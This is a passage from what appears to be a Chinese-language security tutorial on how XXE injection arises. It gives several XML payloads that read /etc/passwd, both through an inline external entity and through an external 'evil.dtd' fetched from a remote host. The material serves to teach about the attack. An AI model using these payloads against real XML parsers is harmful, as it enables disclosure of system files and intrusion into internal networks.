 
> External DTD allows us to include one entity inside the second, but it is prohibited in the internal DTD.



## XXE是如何产生的

当允许引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害。引入外部实体方式有多种，比如：

- 内部声明实体

```xml
<?xml version="1.0"?>
<!DOCTYPE a[
  <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<c>&b;</c>
```

- 外部引用DTD

evil.dtd:

```xml
<!ENTITY b SYSTEM "file:///etc/passwd">
```


方式1：

```xml
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://normal-website.com/evil.dtd">
<c>&b;</c>
```

方式2:

```xml
<?xml version="1.0"?>
<!DOCTYPE a[
  <!ENTITY % d SYSTEM "http://normal-website.com/evil.dtd">
  %d;
]>
<c>&b;</c>
```

另外不同应用程序支持的协议不同:

![](/assets/images/move/2019-08-31-10-32-27.png)

